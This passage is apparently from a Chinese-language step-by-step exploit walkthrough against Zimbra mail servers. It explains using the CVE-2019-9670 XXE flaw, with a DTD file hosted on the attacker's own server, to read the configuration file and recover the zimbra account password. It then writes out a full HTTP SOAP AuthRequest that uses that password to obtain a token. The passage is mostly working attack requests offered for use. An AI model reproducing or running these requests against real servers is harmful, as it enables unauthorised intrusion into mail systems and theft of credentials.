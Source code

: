 ```

</Request>

</Autodiscover>` 
```

![image](../img/1d9a49f8e73cb88eb609e98bdfbfade0.png)

这里利用了CVE-2019-9670漏洞来读取配置文件，你需要在自己的VPS服务器上放置一个dtd文件，并使该文件能够通过HTTP访问。为了演示，我在GitHub上创建了一个仓库，从GitHub上获取dtd文件。

上图中用红框圈起来的就是zimbra账号的密码

### 第三步：获取低权限token

> POST请求包如下：

```
POST /service/soap HTTP/1.1  
Host: www.0-sec.org  
User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/  
Content-Type: application/soap+xml  
Content-Length: 467  
Connection: close  
Cookie: ZM_TEST=true  
Upgrade-Insecure-Requests: 1 `<soap:Envelope xmlns:soap=“[http://www.w3.org/2003/05/soap-envelope](http://www.w3.org/2003/05/soap-envelope)”>

<soap:Header>

<context xmlns=“urn:zimbra”>

<userAgent name=“ZimbraWebClient” version=“5.0.15_GA_2851”/>

</context>

</soap:Header>

<soap:Body>

<AuthRequest xmlns=“urn:zimbraAccount”>

<account by=“adminName”>zimbra</account>

<password>上面得到的密码</password>

</AuthRequest>

</soap:Body>
```